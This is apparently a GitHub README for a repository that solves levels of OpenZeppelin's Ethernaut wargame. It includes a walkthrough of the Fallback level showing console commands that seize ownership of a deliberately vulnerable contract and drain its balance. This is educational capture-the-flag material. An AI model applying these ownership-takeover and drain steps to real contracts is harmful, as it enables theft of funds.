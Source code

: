 # Hackernaut 🧑‍🚀
Set of smart contracts for hacking the OpenZeppelin [Ethernaut game](https://ethernaut.openzeppelin.com/)
> **Note**: Not all the levels can be solved by creating a smart contract,
> this repository only contains the contracts that solve the levels 
> that **require** a Smart Contract to be solved.

Happy hacking! 😄

### Getting Started

1. Create an [Alchemy](https://www.alchemy.com/) account.
2. Create a testing Rinkeby testnet account and feed it with some RinkebyETH using the [Alchemy Faucet](https://rinkebyfaucet.com/).
3. Create a `.env` file on the root folder containing the following variables

```shell
VICTIM_ADDRESS= # Address of the current contract you want to hack
ALCHEMY_API_KEY= # Your Alchemy API Key
RINKEBY_PRIVATE_KEY= # Private key from the Rinkeby testnet account
```

### Scripts
Before hacking each level you must setup the `VICTIM_ADDRESS` env variable previously mentioned. Then, you must run the yarn deploy script according to the level:

```shell
yarn deploy -- <level_name>
```
After this, you must harcode the contract address in the respective script by overriding the `contractAddress` variable. Once done, run the following:

```shell
yarn start:<level_name>
```

### Solutions

#### 1. Hello Ethernaut
Just follow the steps and you'll get there.

---

#### 2. Fallback
This level requires 2 steps to complete as described:

>You will beat this level if
>1. you claim ownership of the contract
>2. you reduce its balance to 0

##### Claiming the ownership
The trick here is to use the fallback `receive` function to get the ownership of the contract.

```sol
  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```
In order to archieve this, we must statisfy 2 conditions: `msg.value` must be greater than zero and our account must have contributed.

So before calling the fallback `receive` function, we need to make a contribution to the contract. We can do so as follows:

```js
  await contract.contribute({ value: 1 });
```
You can also check that the contribution was successful by calling the following line

```js
await contract.contributions(player).then(Number)
```
if the number is greater than zero, then you did it.

Now we can claim the ownership of the contract calling the fallback `receive` function. In order to call fallback payable functions, we just have to send a regular transaction to the contract address as follows:

```js
await contract.sendTransaction({ value: 1 })
```
Now if the transaction was successful, we must be the new owners of this contract, let's check that.

```js
await contract.owner().then(owner => owner === player)
```
##### Reducing the balance to 0
The way to reduce the balance to 0 is by using the `withdraw` function, which sends all the current balance to the owner.

```sol
  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }
```

We are the owners of the contract, let's take those coins!

```js
await contract.withdraw()
```
---